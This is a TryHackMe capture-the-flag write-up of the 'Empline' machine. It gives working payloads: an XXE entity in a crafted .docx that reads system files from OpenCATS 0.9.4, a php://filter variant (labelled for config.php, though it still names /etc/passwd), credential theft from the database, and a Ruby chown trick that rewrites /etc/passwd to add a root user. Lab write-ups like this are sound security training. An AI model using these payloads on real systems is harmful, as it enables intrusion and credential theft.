 # Empline TryHackMe Writeup
### Level: `Medium` | OS: `Linux`
![logo](1.png)

## Scanning
We run nmap on all ports with scripts and software versions.
![](2.png)

## Enumeration
We access website and review all zones of site.
![](3.png)

We list a subdomain that appears to lead to an employee area.
![](4.png)

We found deployed an Opencats with version 0.9.4.
![](5.png)

We launch "**dirsearch**", we list a directory where it shows us a panel that we can access without authentication.
![](26.png)

### Deficient control panel to authorization control
![](27.png)

## Exploitation
We search exploits and found this notice:
https://www.opencats.org/news/2019/july/

### Create with python docx_

```python
#!/usr/bin/env python
from docx import Document
document = Document()
paragraph = document.add_paragraph('m3n0sd0n4ld')
document.save('m3n0s.docx')
```
### Create m3n0s.docx
![](11.png)

Unzip the file and edit the "**document.xml**".
![](12.png)

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "/etc/passwd"> ]>
```

We insert the following line (in orange color) and modify the text to "**&payload**".
![](13.png)

We see that the proof of concept works: .
![](14.png)

So now we read the "config.php" file where the database credentials are stored (remember that we have access to the service on port 3306).

```XML
<?xml version='1.0' encoding='UTF-8' standalone='yes'?>
<!DOCTYPE payload [<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&payload;</data>
```
We will get the content of the file in base64, so we decode and we will have the credentials in plain text.
![](17.png)

### Connect to the database
![](18.png)

We select the table "*users*" and we will obtain the encrypted password of the user "*george*" (this one has a system user ;))
![](19.png)

We use the "**hashes.com**" website to obtain the flat password through its hash.
![](25.png)

### Read user.txt flag
With the password in plain text, we connect through the **SSH** service and read the "*user.txt*" file.
![](20.png)

## Privilege Escalation
After an enumeration, "**linpeas.sh**" shows us that we have permissions with the "**ruby**" binary to modify the binary user due to a deficiency in capabilities.
![](21.png)

We create a ruby file that we will use to modify the user of the file so we can edit it with our user.
![](22.png)

```ruby
file = File.new("/etc/passwd", "r")
file.chown(1002, 1002)
```

Edit the file "*/etc/passwd*" and create the user "*m3n0sd0n4ld*", add the password hash and give it the root suid and save the file.
![](23.png)

We authenticate with the user "*m3n0sd0n4ld*", we see that we are root and we read the root.txt flag.
![](24.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)
